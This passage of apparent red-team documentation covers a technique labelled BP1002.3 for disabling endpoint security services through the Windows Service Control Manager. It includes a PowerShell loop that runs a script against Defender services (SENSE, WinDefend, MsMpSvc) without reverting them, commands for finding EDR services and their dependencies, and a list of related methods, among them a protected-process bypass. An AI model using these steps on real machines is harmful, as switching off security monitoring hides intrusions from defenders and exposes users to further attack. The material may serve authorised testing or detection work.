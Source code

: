 ### When to Use BP1002.3

**Advantages:**
- Command-line interface (scriptable)
- No GUI dependency
- Standard Windows tool
- Clear error reporting
- Fast execution

**Disadvantages:**
- Cannot affect PPL services
- Requires Service Control Manager
- May be monitored/logged
- Administrator privileges required

## Advanced Techniques

### Multiple Service Targeting

```powershell
# Target multiple services in sequence
$services = @("SENSE", "WinDefend", "MsMpSvc")
foreach ($service in $services) {
    .\run.ps1 -TargetService $service -SkipReversion
}
```

### Service Dependency Analysis

```cmd
# Check what depends on a service
sc enumdepend SENSE

# Check what a service depends on
sc qc SENSE | findstr DEPENDENCIES
```

### Custom Service Discovery

```powershell
# Find EDR-related services
Get-Service | Where-Object {$_.DisplayName -match "Defender|Security|Antivirus|EDR"}

# Check service executable paths
sc qc SENSE | findstr BINARY_PATH_NAME
```

## Related Techniques

- **BP1002.1**: Disable service using services.msc (GUI-based)
- **BP1002.2**: Disable service using msconfig.exe (GUI-based)
- **BP1002.4**: Disable service using PowerShell cmdlets
- **BP1002.5**: Disable service using reg.exe (registry editing)
- **BP1002.6**: Disable service using registry save/restore (PPL bypass)
